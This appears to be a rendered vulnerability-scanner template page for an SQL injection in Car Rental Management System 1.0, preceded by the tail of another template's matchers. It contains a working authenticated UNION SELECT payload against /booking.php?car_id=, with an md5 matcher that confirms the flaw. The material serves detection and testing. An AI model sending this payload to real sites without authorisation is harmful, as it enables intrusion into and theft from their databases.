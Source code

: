 **Type - word**
- words
    1. "success":true
    2. _vm_version
    3. _debug
- condition - and

**Type - status**
- status
    1. 200
### Extractors

**Type - kval**
- kval
    1. PHPSESSID

---
# Car Rental Management System 1.0 - SQL Injection
## Description
- Car Rental Management System 1.0 contains an SQL injection vulnerability via /booking.php?car_id=. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - high
- tags - cve,cve2022,carrental,cms,sqli,authenticated
## Requests
### Step - 1
```
POST /admin/ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username={{username}}&password={{password}}

```
### Step - 2
```
GET /booking.php?car_id=-1%20union%20select%201,md5({{num}}),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

